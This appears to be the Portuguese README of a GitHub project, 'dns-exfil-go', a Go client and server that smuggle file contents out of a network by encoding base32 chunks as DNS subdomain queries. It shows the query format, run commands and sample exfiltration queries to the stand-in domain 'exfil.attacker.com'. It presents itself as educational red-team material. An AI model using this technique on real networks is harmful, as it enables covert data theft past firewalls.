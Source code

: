 <img src="https://capsule-render.vercel.app/api?type=rounded&height=300&color=gradient&text=dns-exfil-go" img/>

----
Ferramenta escrita em Go para **exfiltração de dados via requisições DNS**, utilizando codificação base32 e fragmentação em subdomínios.


## 📌 Visão Geral

Este projeto simula uma técnica avançada usada por agentes maliciosos para **vazar dados através de requisições DNS**, contornando firewalls e bloqueios de HTTP/HTTPS. O cliente lê um arquivo, fragmenta, codifica e envia cada pedaço como subdomínio. O servidor intercepta as queries DNS, reagrupa os pedaços e reconstrói o conteúdo original.

---

## ⚙️ Estrutura do Projeto

```

dns-exfil-go/
├── client.go           # Cliente que exfiltra um arquivo via DNS
├── server.go           # Servidor DNS que intercepta e reconstrói os dados
├── utils.go            # Funções auxiliares (base32 e chunking)
├── LICENSE             # Licença MIT
└── README.md           # Este arquivo

```

---

## 🔁 Como Funciona

1. O cliente lê um arquivo local (`data.txt`) e divide o conteúdo em pedaços.
2. Cada pedaço é codificado em Base32.
3. É criada uma query DNS do tipo A com o formato:  
```

\<chunk\_base32>.\<session\_id>.<ordem>.exfil.attacker.com

````
4. O servidor DNS escuta as requisições na porta 5353 (UDP), agrupa os chunks por sessão e reconstrói os dados ao detectar o chunk finalizador (`END_OF_SESSION`).

---

## 🚀 Como Usar

### ⚙️ Requisitos

- Go 1.16 ou superior
- Biblioteca: `github.com/miekg/dns` (instalada com `go mod tidy`)

---

### 🛰️ Rodar o Servidor

```bash
cd dns-exfil-go
go run server.go
````

* O servidor escuta por requisições na porta `5353/udp`.
* O arquivo reconstruído será salvo como: `exfiltrated_data_<session>.bin`

---

### 🧪 Rodar o Cliente

```bash
go run client.go
```

* O cliente cria um arquivo de teste (`data.txt`), lê, fragmenta e envia via DNS.
* Os dados são enviados para `127.0.0.1:5353` com domínio base `exfil.attacker.com` (configure conforme seu setup).

---

## 🔐 Exemplo de Requisição DNS Enviada

```
U3RyaW5nMQ.session42.0.exfil.attacker.com
U3RyaW5nMg.session42.1.exfil.attacker.com
RU5EX09GX1NFU1NJT04.session42.2.exfil.attacker.com
```

---

## 🧯 Aviso Ético

> Esta ferramenta foi criada **exclusivamente para fins educacionais e de pesquisa em segurança**.
> Qualquer uso não autorizado, especialmente em sistemas que você não possui ou não tem permissão explícita para testar, é ilegal.
> Os autores não se responsabilizam por qualquer uso indevido deste código.

---

## 🧠 Referências Técnicas

* [Red Teaming with DNS Exfiltration](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/data-exfiltration-over-dns)
* [miekg/dns - Go DNS lib](https://github.com/miekg/dns)
* [Base32 Encoding RFC 4648](https://datatracker.ietf.org/doc/html/rfc4648)

---

## Autor

**404xploit**
[GitHub](https://github.com/404xploit) • [LinkedIn](https://linkedin.com/in/felipe-gonçalves-costa-b26b72346)

---

## 📄 Licença

Distribuído sob licença [MIT](LICENSE).

